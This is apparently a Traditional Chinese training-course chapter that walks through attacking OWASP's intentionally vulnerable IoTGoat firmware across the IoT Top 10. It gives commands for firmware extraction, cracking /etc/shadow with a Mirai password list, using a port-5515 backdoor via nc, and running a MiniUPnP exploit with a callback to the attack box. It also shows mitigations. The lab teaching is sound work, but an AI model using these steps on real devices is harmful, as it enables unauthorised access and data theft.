

## 🦉情蒐與分析

### 🐧IoTGoat

IoTGoat 是一個由 OWASP 維護的專案，提供一個不安全的韌體平台讓學員能夠親自進行漏洞測試和分析。此專案包含了 OWASP IoT Top 10 2018 的所有弱點，可以透過該專案學習並實踐漏洞分析的技術以研究並理解 IoT 設備的常見安全漏洞以及防禦方法。我們將在本課程中使用 IoTGoat 並結合 OWASP Top 10 2021 進行實踐，以幫助學員理解課程中的知識。

### 🐧情資蒐集

Nmap 是一個開源的網路探測及埠掃描工具。能夠檢測開放的埠、運行的服務版本、及作業系統等資訊。此外，Nmap 還具有腳本引擎，能通過腳本執行更多擴充功能，如：漏洞掃描、服務偵測等。

使用 Nmap 時通常依照以下格式執行：

```bash
nmap {options} IP_ADDRESS
```

以下是常用選項及說明：
| 選項 | 說明 |
| -------- | -------- |
| `-sC` | 使用預設的腳本對目標進行掃描。可以獲得目標服務的詳細資訊。對 HTTP 服務會進行簡單的路徑掃描、對 FTP 服務會檢查是否允許匿名登入等。|
| `-sV` | 詳細掃描目標服務並獲得其版本資訊。通常用來確認目標服務是否存在版本過舊的問題，或是否在非預設埠上運行。 |
| `-sU` | 掃描目標 UDP 協定的埠。UDP 協定的埠相對 TCP 協定的埠而言不太常見，但在某些情況下可能會發現一些可疑的進入點。 |
| `-Pn` | 不使用 `ping` 檢查主機是否存活。可以解決例如 Windows 防火牆全開的情況下，主機可能不回應 `ping` 的問題。 |
| `-o {file}` | 將掃描結果輸出為檔案。 |
| `-p {port}` | 指定要掃描的埠。如果只對某個特定埠感興趣，可以使用此選項節省掃描時間。 |
| `--script {script}` | 指定用來掃描的腳本。在 Nmap 中有許多腳本可用於掃描。 |

開啟本課程的 AttackBox 與 LabBox，使用 AttackBox 的 nmap 工具掃描 IoTGoat 的 IP 開啟的埠。使用指令 `nmap -p- -T4 IP_ADDRESS` 可以發現目標 IP 開啟的埠有 22、53、80、443、5000 等。每一個埠各代表一種服務。例如：80 埠的 HTTP 代表有可能是網頁服務。


### 🐧韌體分析

除了使用 nmap 掃描目標來了解設備的服務與版本外，也可以透過分析韌體的方式取得更多可供利用的資訊。在分析設備以前，可以將取得韌體作為第一步，許多 IoT 設備廠商會將產品的更新韌體放置於官網上供使用者進行下載更新，攻擊者可以透過分析這些韌體或更新檔來找出可被攻擊的弱點。

IoTGoat 於 github 上提供多個韌體映像檔供使用者練習分析，進入 IoTGoat 的 [Github](https://github.com/OWASP/IoTGoat/releases) 頁面後，截至 2023/5 ，最新的韌體映像檔版本為 v1.0，並有三種版本，皆可下載進行分析與利用。

- IoTGoat-raspberry-pi2-sysupgrade.img
- IoTGoat-raspberry-pi2.img
- IoTGoat-x86.img.gz


我們將使用 `IoTGoat-x86.img.gz` 作為範例，首先透過 `wget` 下載檔案並且解壓縮。解壓縮的方法有許多種，可以透過 gzip 進行解壓縮。解壓縮後，我們可以在當前資料夾內發現一個 img 檔案，供我們進行後續分析。

```bash
wget https://github.com/OWASP/IoTGoat/releases/download/v1.0/IoTGoat-x86.img.gz
gzip -d IoTGoat-x86.img.gz
```


在分析韌體檔時，通常會使用 Binwalk 這個工具，Binwalk 是一個用於分析和提取韌體映像檔的工具，通常用於檢測韌體中的隱藏資訊，例如：壓縮檔、圖片、設定檔等。Binwalk 透過搜尋韌體映像檔的特定簽名和魔術數字 (magic numbers) 來協助提取，將隱藏在目標內的資料提取成新的檔案。我們將使用這個工具提取出 IoT 設備韌體的檔案系統。首先我們使用 `binwalk -e TARGET` 來提取映像檔內的資訊。

```bash
binwalk -e IoTGoat-x86.img
```


執行 `ls -la` 後可以發現一個新的目錄 `_IoTGoat-x86.img.extracted`。


接下來需要使用到一個可以用以分析韌體的工具 Firmwalker，Firmwalker 能夠分析檔案系統並找出敏感資訊，例如：密碼、資料庫等資訊。而在 IoT 設備中，常見的漏洞之一便是開發者直接將出廠的密碼 Hardcode 於韌體內，因此當攻擊者取得韌體並分析出密碼時，便可直接利用 Hardcode 的密碼連上機器。

首先執行 `git clone` 來下載 Firmwalker，並進入 `firmwalker` 目錄執行 `firmwalker.sh` ，指定目標路徑為剛剛提取出的目錄 `_IoTGoat-x86.img.extracted`。

```bash
git clone https://github.com/craigz28/firmwalker.git
cd firmwalker
./firmwalker.sh ../_IoTGoat-x86.img.extracted
```


執行後，我們便能透過這些資訊決定接下來的行動。我們將在之後的章節討論分析的結果以及攻擊的方式。

## 🦉I1 脆弱和寫死的密碼

我們將延續剛剛的韌體分析來嘗試利用此弱點。


在 Unix-like 的作業系統中，`/etc/shadow` 是一個非常重要的系統文件。該文件儲存了系統上所有帳號的密碼相關資訊，包括經過 Hash 後的密碼。並且為了保證這些資料的安全，這個文件只能由 root 做讀取和寫入，而另一個能由一般使用者讀取的文件是 `/etc/passwd`。

`/etc/shadow` 文件的每一行都代表一個使用者，以冒號 `:` 分隔成多個字段，在本節我們只需要了解前兩個字段所代表的意思。在一個正常的 `/etc/shadow` 檔案中通常每行的前兩個字段會按照以下的格式儲存。

```bash
USERNAME：HASHED_PASSWORD
```

hashed_password 的字串是使用者經過 Hash 過後的密碼。如果這個字串是空的，則使用者不存在密碼。如果此字串包含一個 `!` 或 `*`，則使用者不能登錄。若取得 `/etc/shadow`，代表能利用暴力破解來嘗試破解使用者經過 Hash 過的密碼，並且嘗試使用破解過後的密碼來連接至目標機器。若使用者沒有更改，攻擊者便能使用此手法連接至目標。在上一章 `Firmwalker` 掃描的結果便能看到目錄內存在 `/etc/shadow`，可以針對這個檔案做進一步的分析。


在暴力破解階段，會需要使用到字典檔來對 Hash 進行暴力破解。會使用到 `mirai-botnet.txt` 這個字典檔。此字典檔位於 AttackBox 的 `/usr/share/seclists/Passwords/Malware/mirai-botnet.txt` 可以將這個檔案複製到當前目錄下以進行後續處理。由於該字典檔包含使用者名稱與密碼，但我們只需要使用密碼來進行爆破，因此可以使用 `awk` 指令來將密碼重新輸出到另一個檔案作為接下來使用的字典檔。

```bash
cp /usr/share/seclists/Passwords/Malware/mirai-botnet.txt .
awk '{print $2}' mirai-botnet.txt > mirai-botnet-pass.txt
```


接著我們將使用 `John the Ripper` 這個 Hash 破解工具，`John the Ripper` 常被用於破解 Unix、Windows、macOS 以及許多其他平台上的 Hash。`John the Ripper` 支援破解許多不同類型的 Hash 格式，例如：
Unix Hash、Windows LM/NTLM Hash、MD5 等。我們已經取得了目標的 `/etc/shadow` 和用於暴力破解的字典檔，下一步我們將使用 `John the Ripper` 搭配字典檔對目標進行暴力破解。

```bash
john shadow --wordlist=./mirai-botnet-pass.txt
```


執行破解後我們順利的取得了 iotgoatuser 的密碼，之後可以使用此 credential 來進入系統。

回到上一張使用 nmap 掃描得出的結果，可以發現 `IoTGoat` 存在一個 SSH 服務，因此我們可以使用 SSH 以及剛剛發現的 Credential 來以 iotgoatuser 的身份進入系統。


在嘗試使用 SSH 對目標進行連接時會發現連接出現錯誤，可以在 SSH 的 args 加入 `-oHostKeyAlgorithms=+ssh-rsa` 來避免此錯誤的產生。

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa iotgoatuser@IP
```


最後便成功利用 IoTGoat 韌體內包含的預設密碼與密碼 Hash 進入了該 IoT 裝置。

## 🦉I2 不安全的網路服務

不安全的網路服務 (Insecure Network Services) 表示 IoT 設備可能因網路服務的安全缺陷而導致嚴重風險。導致此問題的原因是使用了危險的協定，例如：HTTP、Telnet 等。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 使用了不安全或是過時的網路協定
- 在網路上傳輸敏感資訊時未加密
- 開放了不必要的埠

在 IoTGoat 中，本弱點對應到 65534 埠，由於 Telnet 並不會將傳輸資料加密因此其連接是不安全的。根據最小權限原則，在 IoT 設備有 SSH 的情況下此埠也沒有開啟的必要，因此 Telnet 服務具有不安全的網路服務這一弱點。


## 🦉I3 不安全的生態介面

不安全的生態介面 (Insecure Ecosystem Interfaces) 表示 IoT 設備的 Interface，例如：Web API、雲端 API 等可能存在的安全問題。這些 Interface 可能因各種原因被攻擊者利用。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- API 未採用適當的身份驗證或授權機制
- Interface 存在安全漏洞
- Interface 回傳太多不必要的資訊
- 未進行適當的輸入驗證，導致注入攻擊

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。在 nmap 掃描中，可以發現 5515 埠有未知的服務，在此我們可以嘗試使用 `nc` 去連接，可以發現連接後會顯示 Backdoor 的可疑字串。

```
nc -nv IP_ADDRESS 5515
```


嘗試輸入 `id`、`ls -la`、`ifconfig` 等 Linux 指令後，可以發現指令都可以順利執行，由此我們可以判斷，這極有可能是開發者為了方便 Debug 而留下的工具，但是在 IoT 設備上市後沒有移除。因此，可以確定此 IoT 設備包含一個後門並且位於 5515 埠。


## 🦉I4 缺乏安全的更新機制

缺乏安全的更新機制 (Lack of Secure Update Mechanism) 表示 IoT 設備缺乏安全的更新機制，使得設備無法獲得最新的安全修補程式和功能更新。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- IoT 設備製造商未提供更新
- IoT 設備的更新檔案未加密
- 更新時缺乏對更新檔案的完整性檢查
- 更新不需要使用者許可

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。在 nmap 掃描中，5000 埠上的 HTTP Response 中存在著看起來像是服務版本的字串 `OpenWRT / 18.06.2`。


我們可以搜尋`OpenWRT / 18.06.2`，會發現此版本的 OpenWRT 有一個 CVE-2020-7982 的漏洞。


搜尋此漏洞編號後可以發現利用此漏洞造成的影響非常嚴重，因此我們將設定一個定時更新的腳本讓系統能夠更新系統以及安裝的所有軟體。

利用上一章所找到的後門，輸入 `ls -la /bin`可以發現名為 opkg 的檔案。opkg 是一個輕量級的套件管理器，通常會在 IoT 的 Linux 系統中使用，可以使用 `opkg update` 以及 `opkg upgrade {pkgs}` 來進行套件更新。我們使用 `opkg list-upgradable | cut -f 1 -d ' ' | xargs -r opkg upgrade` 指令將所有套件一次更新到最新版本。需要注意，一次更新所有套件是非常危險的，有可能因為相容性問題導致 IoT 設備無法正常運作，本次操作主要是為了展示防禦該弱點的方式。


為了自動更新，可以將更新腳本寫入 `/etc/crontabs` 中並設定自動於每天凌晨一點執行，便能緩解此弱點造成的危害。

```bash
echo 'opkg update ; opkg list-upgradable | cut -f 1 -d ' ' | xargs -r opkg upgrade' > /etc/crontabs/update.sh
chmod +x /etc/crontabs/update.sh
echo '0 1 * * * /bin/sh /etc/crontabs/update.sh' > /etc/crontabs/root
```


## 🦉I5 使用不安全或是過時的元件

使用不安全或是過時的元件 (Use of Insecure or Outdated Components) 表示 IoT 設備可能使用不安全或過時的軟體及元件，這些軟體或元件可能存在已知的安全漏洞，但由於已經停止維護，所以無法獲得修補程式。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 使用已知存在漏洞的軟體或元件
- 使用已停止維護的軟體或元件

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。在 nmap 掃描中查看所有 埠上服務的版本。


在 AttackBox 中，可以使用 `searchsploit` 這個工具幫助使用者快速搜尋是否有公開的漏洞能利用。可以透過輸入 `searchsploit SERVICE` 來快速搜尋服務是否有漏洞。我們搜尋 `dnsmasq 2.73` 以及 `MiniUPnP 2.1` 可以發現都存在公開的漏洞，在此我們將目標鎖定為 `MiniUPnP 2.1` 嘗試對其進行攻擊。

```bash
searchsploit dnsmasq 2.73
searchsploit MiniUPnP 2.1
```


找到攻擊腳本後，透過 `searchsploit -m {EDB-ID}` 指令將攻擊用的腳本複製到當前路徑下。

```bash
searchsploit -m 46278
```


嘗試閱讀攻擊腳本的程式碼後便可對目標進行攻擊，使用以下指令，可以觀察到我們成功越界讀取到不該被讀取的資料。

```bash
python 46278.py --callback_ip ATTACKBOX_IP --callback_port 8787 LABBOX_IP 5000
```


## 🦉I6 隱私保護不足

隱私保護不足 (Insufficient Privacy Protection) 表示 IoT 設備未充分保護隱私資訊。導致敏感資訊洩露給未經授權的人。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 蒐集超出需求的資訊
- 未將使用者資訊加密儲存或傳輸
- 未遵守隱私法規，例如：GDPR、CCPA 等

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。在 `Firmwalker` 掃描的結果中可以發現從韌體中提取出來的資料存在結尾為 `.db` 的檔案 `sensordata.db`，有極高機率是資料庫的儲存檔案。


我們可以使用 `cat` 指令開啟檔案並觀察，可以發現檔案中出現了 sqlite 的字串，因此可以假設 `sensordata.db` 為 SQLite 的資料儲存檔案。


在 AttackBox 中，可以使用 `sqlitebrowser` 來開啟 SQLite 的 `.db` 檔案。在終端機輸入 `sqlitebrowser` 開啟程式，點選左上角的 Open Database 並選擇剛剛發現的檔案。


開啟後可以看到兩個 Table，對第一個 Table 的 sensors 點選右鍵並選擇 Browse Table。



接著便可瀏覽此 Table 中的使用者資料，可以發現 IoTGoat 未將敏感的個人資料進行加密儲存進行保護，當資料被駭客取得後就能直接利用。


## 🦉I7 不安全的資料傳輸和存儲

不安全的資料傳輸和儲存 (Insecure Data Transfer and Storage) 表示 IoT 設備在傳輸或儲存資料時可能存在的安全性弱點。當這些裝置未對資料進行適當的加密或保護時，可能會導致敏感資訊被竊取或洩露。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 在網路傳輸中未使用加密
- 敏感資料未進行適當加密或保護
- 系統未適當處理與資料相關的錯誤

IoT 裝置的製造商在裝置的設計和開發過程中應該重視資料安全。並考慮資料的加密和保護需求，在測試和實際運作的過程中確保資料安全能夠得到滿足。觀察上一章的 `sensordata.db`，IoTGoat 未將敏感的個人資料進行加密儲存進行保護，當資料被駭客取得後就能直接利用。

## 🦉I8 缺乏設備管理

缺乏設備管理 (Lack of Device Management) 表示 IoT 設備在管理和維護方面無法進行有效的更新管理、設定管理等，並可能導致裝置的安全性降低，增加受到攻擊的風險。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 缺乏有效的 IoT 設備版本管理
- 缺乏 IoT 設備身份驗證機制
- 無法管理 IoT 設備的遠端訪問

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。使用 IoTGoat 的後門進入系統內，可以發現 IoTGoat 根目錄下的 `/var` 直接被連結到 `/tmp`，導致在系統每次重新啟動，所有 log 都會被系統刪除。


要解決此問題，我們需要先將原始的 `/var` 刪除並新增一個 `/var`，再將原本在 `/tmp` 下的檔案移動至新的 `/var`。

```bash
rm -rf /var
mkdir /var
mv /tmp/* /var
```


## 🦉I9 不安全的初始設置

不安全的初始設置 (Insecure Default Settings) 表示 IoT 設備的出廠預設設定不安全。導致裝置在出廠時就存在重大的安全風險被攻擊者利用。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- 出廠預設設定包含弱密碼
- 預設允許未經授權的訪問或修改
- 預設開啟不必要的網路服務

我們同樣可以透過 IoTGoat 的實作來觀察該弱點。回顧在 `不安全的網路服務` 章節中的實作以及 nmap 掃描結果。在 IoT 設備擁有 SSH 連接方式的情況下在 65534 埠發現了 Telnet。而 5515 埠的 Backdoor 也是由於出廠時開發人員忘記關掉的 Debug 模式，造成不安全的初始設置的弱點。


## 🦉I10 缺乏物理防禦

缺乏物理防禦 (Lack of Physical Hardening) 表示 IoT 設備在物理安全方面的弱點。包含物理存取、設備竊取、設備破壞等。

發生該弱點的 IoT 設備通常具有以下幾點特徵：

- IoT 設備容易被拆解或破壞，讓攻擊者能夠存取內部

物理安全是一種重要的安全考慮因素，裝置製造商需要確保設備具有足夠的物理強化措施，並設計出防止未經授權拆解或修改的 IoT 設備以降低 IoT 設備遭受物理攻擊的風險。
